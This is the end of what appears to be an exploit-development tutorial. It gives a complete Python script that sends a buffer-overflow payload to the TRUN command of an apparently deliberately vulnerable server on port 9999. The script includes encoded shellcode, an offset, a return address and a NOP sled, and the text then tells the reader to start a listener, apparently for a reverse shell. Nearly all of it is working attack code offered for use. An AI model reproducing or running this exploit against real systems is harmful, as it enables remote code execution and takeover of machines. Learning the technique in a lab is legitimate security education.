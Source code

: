 Put this is in your python script:
```
#!/usr/bin/python
import sys, socket

############### EXPLOITATION & FUN ##################
overflow = (
"\xdb\xce\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x52\xbb\x44\x7d\xca"
"\xdf\x31\x5a\x17\x03\x5a\x17\x83\xae\x81\x28\x2a\xd2\x92\x2f"
"\xd5\x2a\x63\x50\x5f\xcf\x52\x50\x3b\x84\xc5\x60\x4f\xc8\xe9"
"\x0b\x1d\xf8\x7a\x79\x8a\x0f\xca\x34\xec\x3e\xcb\x65\xcc\x21"
"\x4f\x74\x01\x81\x6e\xb7\x54\xc0\xb7\xaa\x95\x90\x60\xa0\x08"
"\x04\x04\xfc\x90\xaf\x56\x10\x91\x4c\x2e\x13\xb0\xc3\x24\x4a"
"\x12\xe2\xe9\xe6\x1b\xfc\xee\xc3\xd2\x77\xc4\xb8\xe4\x51\x14"
"\x40\x4a\x9c\x98\xb3\x92\xd9\x1f\x2c\xe1\x13\x5c\xd1\xf2\xe0"
"\x1e\x0d\x76\xf2\xb9\xc6\x20\xde\x38\x0a\xb6\x95\x37\xe7\xbc"
"\xf1\x5b\xf6\x11\x8a\x60\x73\x94\x5c\xe1\xc7\xb3\x78\xa9\x9c"
"\xda\xd9\x17\x72\xe2\x39\xf8\x2b\x46\x32\x15\x3f\xfb\x19\x72"
"\x8c\x36\xa1\x82\x9a\x41\xd2\xb0\x05\xfa\x7c\xf9\xce\x24\x7b"
"\xfe\xe4\x91\x13\x01\x07\xe2\x3a\xc6\x53\xb2\x54\xef\xdb\x59"
"\xa4\x10\x0e\xcd\xf4\xbe\xe1\xae\xa4\x7e\x52\x47\xae\x70\x8d"
"\x77\xd1\x5a\xa6\x12\x28\x0d\x09\x4a\x62\xcc\xe1\x89\x82\xdf"
"\xad\x04\x64\xb5\x5d\x41\x3f\x22\xc7\xc8\xcb\xd3\x08\xc7\xb6"
"\xd4\x83\xe4\x47\x9a\x63\x80\x5b\x4b\x84\xdf\x01\xda\x9b\xf5"
"\x2d\x80\x0e\x92\xad\xcf\x32\x0d\xfa\x98\x85\x44\x6e\x35\xbf"
"\xfe\x8c\xc4\x59\x38\x14\x13\x9a\xc7\x95\xd6\xa6\xe3\x85\x2e"
"\x26\xa8\xf1\xfe\x71\x66\xaf\xb8\x2b\xc8\x19\x13\x87\x82\xcd"
"\xe2\xeb\x14\x8b\xea\x21\xe3\x73\x5a\x9c\xb2\x8c\x53\x48\x33"
"\xf5\x89\xe8\xbc\x2c\x0a\x08\x5f\xe4\x67\xa1\xc6\x6d\xca\xac"
"\xf8\x58\x09\xc9\x7a\x68\xf2\x2e\x62\x19\xf7\x6b\x24\xf2\x85"
"\xe4\xc1\xf4\x3a\x04\xc0" )
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.80.1',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close


except:
        print "Error connecting to the server"
        sys.exit()
```
Put the listenser on the port used in generating the payload 

# We done Here ! Nice Hacking
